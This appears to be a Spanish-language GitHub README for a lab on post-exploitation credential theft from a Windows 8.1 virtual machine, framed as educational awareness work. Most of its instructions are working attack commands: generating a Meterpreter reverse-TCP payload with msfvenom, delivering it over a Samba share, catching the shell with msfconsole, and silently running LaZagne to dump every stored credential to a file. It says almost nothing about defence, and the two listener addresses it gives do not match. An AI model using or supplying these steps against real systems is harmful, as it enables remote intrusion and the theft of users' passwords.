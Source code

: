 # 🧪 Laboratorio de Ingeniería Social — Extracción de Credenciales en Windows 8.1

## 📘 Descripción del laboratorio

Este laboratorio simula un escenario de post-explotación en un entorno virtual controlado. El objetivo es demostrar cómo un atacante puede extraer credenciales almacenadas en una máquina Windows 8.1 utilizando herramientas como Meterpreter y LaZagne, sin que el usuario lo note. Todo el ejercicio se realiza con fines educativos y de concientización en ciberseguridad.

## 🛠️ Herramientas utilizadas

- Kali Linux (máquina atacante)
- Windows 8.1 (máquina víctima)
- LaZagne — herramienta de extracción de credenciales
- Meterpreter — ejecución remota
- msfvenom / msfconsole — generación y manejo de payloads
- Samba — para compartir archivos entre máquinas virtuales

## 🎯 Objetivo

Mostrar cómo un atacante puede ejecutar herramientas de extracción de credenciales en una máquina Windows comprometida, usando acceso remoto y técnicas silenciosas. El laboratorio permite entender los riesgos y aplicar medidas de defensa en entornos reales.

## 🧪 Instrucciones paso a paso

### 1. Preparación del entorno

- Inicia Kali Linux y Windows 8.1 en máquinas virtuales.
- Asegúrate de que ambas máquinas estén en la misma red virtual (puente o NAT).

### 2. Instalación de dependencias en Kali
sudo apt update
sudo apt install git python3 python3-pip mingw-w64 -y
git clone https://github.com/AlessandroZ/LaZagne.git
cd LaZagne
pip3 install -r requirements.txt
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.158 LPORT=4444 -f exe -o payload.exe
cp /home/kali/Desktop/payload.exe /home/kali/samba_share/
sudo systemctl restart smbd
sudo systemctl start nmbd
sudo systemctl status smbd
####Acceder desde Windows a la carpeta compartida
________En el explorador de archivos de Windows, accede a \\<IP_Kali>\samba_share
________Copia payload.exe y LaZagne.exe al escritorio de Windows
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.101.83
set LPORT 4444
exploit
#######Ejecutar LaZagne desde sesión Meterpreter
execute -f "C:\\Users\\Administrator\\Desktop\\LaZagne.exe" -a "all -oA -output C:\\Users\\Administrator\\Desktop\\resultados" -H





